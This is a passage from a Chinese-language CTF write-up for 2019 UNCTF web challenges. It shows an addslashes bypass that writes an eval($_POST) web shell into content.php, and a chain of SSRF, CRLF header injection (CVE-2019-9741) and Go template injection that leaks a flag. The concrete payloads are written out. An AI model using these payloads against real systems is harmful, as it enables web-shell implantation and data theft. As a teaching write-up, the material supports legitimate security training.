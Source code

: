 2.  接着访问属于自己的沙盒,发现如下代码

![](https://ctfwp.wetolink.com/2019unctf/simple_web/8c3da3873abb68f4f4aaa0b730b92af5.png)

1.  审计之后,发现会写入一个content.php的文件内,但是我们输入的字符都会被addslashes添加转义,从而保证安全

2.  规则大概如下‘-\>/’,/-\>//,所以我们需要采用特别的构造技巧,payload如下:?content=aaa\\';\@eval(\$_POST[x]);;//

3.  如此构造后我们content.php的内容就会变为如下的内容

![](https://ctfwp.wetolink.com/2019unctf/simple_web/8f2731c0e33de2dbb00d90bab6570ee7.png)

10 .使用菜刀链接,从而就在根目录下能得到flag

![](https://ctfwp.wetolink.com/2019unctf/simple_web/6027f5ba2089f795536a0e73e19facf2.png)

### smile doge
#### 原理知识
1） CRLF 注入漏洞， 是因为 Web 应用没有对用户输入做严格验证， 导致攻击者可以输入一些恶意字符。 攻击者一旦
向请求行或首部中的字段注入恶意的 CRLF， 就能注入一些首部字段或报文主体， 并在响应中输出， 所以又称为
HTTP 响应拆分漏洞（HTTP Response Splitting） 。

2） SSTI 和常见 Web 注入(SQL 注入等)的成因一样， 也是服务端接收了用户的输入， 将其作为 Web 应用模板内容的
一部分， 在进行目标编译渲染的过程中， 执行了用户插入的恶意内容。

#### 解题过程
1） 打开浏览器， 访问目标主机， 可以看到页面只有一个输入框， 简单测试可以看到输入的内容基本都原样输出了，
且默认页面输出为“Hello gugugu!” ， 输入“http://127.0.0.1” 后发现输出的内容为“Hello Hello gugugu!!” 
可以看到内容发生了嵌套， 说明可能存在 SSRF

![](http://yanxuan.nosdn.127.net/cc1ace6f4d5ec7ea66a91c7455b19f19.png)

2） 页面提示代号 9527， 于是输入“http://127.0.0.1:9527/” ， 发现同样出现了内容嵌套， 且内容为“Hello
No.9527!” ， 可以判断出内网中 9527 端口存在一个服务

![](https://ctfwp.wetolink.com/2019unctf/Smile_Dog/1.png)

3） 用 Dirsearch 等工具能够很轻易地扫到备份文件： http://127.0.0.1/backup/.index.php.swp

![](https://ctfwp.wetolink.com/2019unctf/Smile_Dog/2.png)

下载下来用 vim -r .index.php.swp 恢复源码

![](https://ctfwp.wetolink.com/2019unctf/Smile_Dog/3.png)

4） 稍微搜一下能发现代码是 Golang 的， 首先可以看出 flag 是放在*http.Request 的 Header 中的， 结合 9527 端口
的回显是“Hello No.9527!” ， 可以得出 name 参数的值即为输出的值， 当请求的 Header 中含有“Logic” 头时， name
的值即为“Logic” 头的值， 但是 SSRF 在一般情况下是无法控制服务器发出请求中的 Header 的， 此时就要考虑如何
控制 SSRF 中的 Header， 即 CRLF 注入， 这里实际用的是 CVE-2019-9741。 构造 Payload： “http://127.0.0.1:9527/?
HTTP/1.1\r\nLogic: abc”

![](https://ctfwp.wetolink.com/2019unctf/Smile_Dog/4.png)

5） 在 Go 的模板中， 要插入一个对象的值， 则使用`{{.对象名}}`， 回忆之前的源码泄露， flag 是放在*http.Request
中的， 在结构体中可以看到*http.Request 的名为 MyRequest， 所以模板注入的 Payload 为`{{.MyRequest}}`， 完整的
Payload：
`“http://127.0.0.1:9527/? HTTP/1.1\r\nLogic: {{.MyRequest}}”`
